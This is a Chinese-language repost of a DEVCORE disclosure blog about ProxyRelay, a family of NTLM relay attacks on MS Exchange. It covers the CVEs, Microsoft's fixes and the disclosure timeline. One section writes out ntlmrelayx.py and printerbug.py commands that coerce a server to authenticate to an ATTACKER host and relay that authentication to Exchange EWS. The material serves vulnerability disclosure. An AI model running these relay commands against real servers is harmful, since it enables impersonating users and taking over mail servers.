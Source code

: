 ```yaml
---
date: 2025-08-02T21:26:58+08:00
title: MS Exchange新攻击面分析第四部：ProxyRelay技术揭秘
tags: [网络安全,漏洞分析,Exchange攻击]
authors: qife
description: 本文深入分析了MS Exchange服务器中ProxyRelay攻击面的技术细节，包括NTLM中继攻击原理、四个关键漏洞(CVE-2021-33768等)的利用方式，以及针对Exchange前端、后端、DCOM等不同组件的攻击手法。
---
```


# MS Exchange新攻击面分析第四部：ProxyRelay！

这是来自DEVCORE的交叉发布博客。完整系列包括：
- MS Exchange新攻击面分析第一部：ProxyLogon！
- MS Exchange新攻击面分析第二部：ProxyOracle！
- MS Exchange新攻击面分析第三部：ProxyShell！
- MS Exchange新攻击面分析第四部：ProxyRelay！

## 背景说明
这篇迟来的文章原本可以更早发布（原始漏洞于2021年6月报告给MSRC，遵循90天公开披露政策）。在与MSRC沟通期间，他们解释由于这是架构设计问题，需要进行大量代码修改和测试，因此希望通过累积更新(CU)而非常规补丁周二一次性解决。我们理解这一情况并同意延长截止日期。

微软最终于2022年4月20日发布Exchange Server 2019 CU 12和Exchange Server 2016 CU 23，但该补丁默认未启用。直到2022年8月9日微软才发布补丁激活方法。我们本有机会在Pwn2Own Vancouver 2021展示攻击，但出于安全研究初衷放弃了参赛计划。

## 技术原理
自2021年4月微软封堵Proxy系列攻击后，我们一直在探索绕过方案。当时微软通过增强CAS前端认证机制，要求所有需要Kerberos票据的HTTP请求必须先通过认证，有效阻止了未经认证的请求访问CAS后端。但Exchange真的安全了吗？

我们借鉴了打印机漏洞(Printer Bug)的思路：在Exchange架构中，后端通过检查登录身份是否拥有ms-Exch-EPI-Token-Serialization扩展权限来授权HTTP请求。由于Exchange服务器在安装时会自动加入Exchange Servers组，该组所有对象默认拥有此权限。

## 漏洞利用
我们发现了完整的攻击面而非单个漏洞，由此衍生出多个CVE：
- CVE-2021-33768 - 中继到Exchange前端
- CVE-2022-21979 - 中继到Exchange后端
- CVE-2021-26414 - 中继到Exchange DCOM
- CVE-2022-RESERVED - 中继到其他Exchange服务

### 第一轮：中继到Exchange前端
通过强制EX01发起SMB连接，使用ntlmrelayx.py将NTLM认证中继到EX02前端的EWS服务。由于中继身份是拥有Token-Serialization权限的机器账户，我们可以模拟任意用户：

```bash
# 终端1
$ python ntlmrelayx.py -smb2support -t https://EX02/EWS/Exchange.asmx

# 终端2 
$ python printerbug.py EX01 ATTACKER
```

微软通过在前端代理处理程序添加IsSystemOrMachineAccount()检查来修复此问题（CVE-2021-33768）。

### 第二轮：中继到Exchange后端
后端验证更为复杂，我们展示了三种攻击方式：
1. 攻击后端/EWS：只需将目标端口从443改为444
2. 攻击后端/RPC：通过RPC-over-HTTP协议操作邮箱
3. 攻击后端/PowerShell：实现类似ProxyShell的利用链

微软通过强制启用IIS的扩展保护认证修复此问题（CVE-2022-21979）。

### 第三轮：中继到Windows DCOM
基于Exchange服务器在AD环境中的组继承特性，EX01$机器账户也是EX02的本地管理员。通过中继到MS-DCOM可以实现RCE。微软分三个阶段逐步修复此问题（CVE-2021-26414）。

## 时间线
详细披露过程包括：
- 2021年6月2日：通过MSRC门户报告漏洞
- 2022年4月20日：发布Exchange补丁
- 2022年8月18日：最终发布CVE和补丁激活文档

## 结语
这个系列研究历时两年，期间经历了漏洞碰撞、Pwn2Own竞赛、顶级会议演讲等事件。我们始终秉持安全研究的初心，希望通过这些发现帮助提升Exchange服务器的安全性。